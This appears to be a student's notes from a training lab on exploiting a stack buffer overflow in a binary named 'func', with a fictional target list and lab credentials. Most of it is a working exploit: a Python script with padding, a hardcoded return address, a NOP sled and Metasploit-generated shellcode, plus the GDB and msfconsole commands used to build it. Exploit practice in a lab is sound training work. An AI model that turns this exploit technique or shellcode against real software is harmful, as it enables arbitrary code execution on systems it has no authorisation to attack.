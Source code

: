     https://wiremask.eu/tools/buffer-overflow-pattern-generator/
_____________________________________________________________________________________________________________________
### Run GDB against the program you want to view
#### To see if it can be broken.
    gdb func
_____________________________________________________________________________________________________________________
### Create a python script to run against the program in gbd.
#### Buffer to see when the program breaks, EIP to jump to the point in memory, nop sled to push your code into executable space in memory, print to view the output as you update the script. THIS SCRIPT IS FULLY UPDATED!
    buffer = "A" * 62
    
    #eip = "BBBB"
    eip = "\x59\x3b\xde\xf7"
    
    nop = '\x90' * 5
    
    buf =  b""                                                            #This is gotten from the msfconsole
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"            #commands that were ran below!!!!!!
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### Open the gdb enviroment to unset the memory.
#### Use the find command to locate the memory thats vulnerable to update your script.
    env - gdb func
    show env
    unset env LINES
    unset env COLUMNS
    run
    info proc map
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### Open gdb against the program func
#### This is for testing the script continuously as you UPDATE IT.
    gdb func
    run <<< $(python test.py)
_____________________________________________________________________________________________________________________
### Run msfconsole to get the shellcode to run the command in the script.
#### step will take several attempts of running the last command and pasting into script.
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python                  #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
### ->T1: 192.168.28.111
### ->T2: 192.168.28.105

## >Jump Box
### ->donovian_grey_host
#### -->T3: 192.168.150.245

#### Target Section:

## T1
### Hostname: Donovian_Webserver
#### IP: 192.168.28.111
#### OS: CentOS
#### Creds: comrade :: StudentWebExploitPassword
#### Last Known SSH Port: 2222
#### Action: Exploit binary.

## T2
### Hostname: Donovian-Terminal
#### IP: 192.168.28.105
#### OS: unknown
#### Creds: comrade :: StudentReconPassword
#### Last Known SSH Port: 2222

## T3
### Hostname: unknown
#### IP: 192.168.150.245
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### PSP: Unknown
#### Malware: Unknown
#### Action: Exploit a network service on the machine
